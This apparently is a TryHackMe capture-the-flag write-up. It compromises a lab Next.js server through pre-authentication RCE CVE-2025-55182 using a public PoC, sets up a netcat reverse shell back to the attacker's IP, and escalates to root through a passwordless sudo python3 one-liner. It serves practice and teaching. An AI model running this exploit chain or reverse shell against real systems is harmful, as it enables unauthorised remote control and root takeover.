





Target: http://10.80.190.168:3000/


I started with a basic nmap scan:

```
nmap 10.80.190.168
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```


Doing a dirb enum also gives no advantage. Manually browsing the webpage is also a deadend, as the interface is not interactive and all features were not functional. I checked the source page for clues, I could see that this is a next.js powered website.

Further confirmed with:

```
curl -I http://10.80.190.168:3000/
```




Checking to see if there are any possible vulnerabilities with nuclei:


Unfortunately nuclei is not and cannot be installed on the THM attackbox. So I quickly powered up my Kali VM, and got this result:

```
nuclei -u 10.80.190.168:3000
```


We clearly see a critical vulnerability:

```
[CVE-2025-55182] [http] [critical] http://10.80.190.168:3000
```


https://www.cve.org/CVERecord?id=CVE-2025-55182

And bingo this is our attack vector.

This is a Pre-authentication Remote Code Execution (RCE).

Based on this git PoC: https://github.com/Chocapikk/CVE-2025-55182 we will start the exploit


```
git clone https://github.com/Chocapikk/CVE-2025-55182
cd CVE-2025-55182
```




If I try to run the script right now I would face errors due to missing dependencies, so first I have to install them in our Python virtual environment.


Now let’s execute the script.

Make sure if you are using a VM, that it is also connected to the TryHackMe VPN (by adding your openvpn config file on the VM), otherwise this is just not going to work.

```
python3 exploit.py -u http://10.80.190.168:3000/ -r -l 192.168.188.10 -p 4444 -P nc-mkfifo
```


We get a successful reverse shell connection with the target web server.



After some digging we find the flag in the user’s home folder.


Now for the root flag, we first check what the current user can run without sudo, so we run sudo -l to list the commands

```
sudo -l
```




```
(root) NOPASSWD: /usr/bin/python3
```


That means we can run python3 as root without a password.

We can privilege escalate with Python, either by using:
- os.setuid(0) which switches the user ID to 0 (root) 
- os.execv("/bin/sh", ["sh"]) which replaces the current process with /bin/sh.

So within the new shell we will find the root flag in its home folder too:

```
python3 -c 'import os; os.setuid(0); os.execv("/bin/sh", ["sh"])'
```





Attack Type: Pre-authentication Remote Code Execution (RCE) leading to Python sudo privilege escalation.
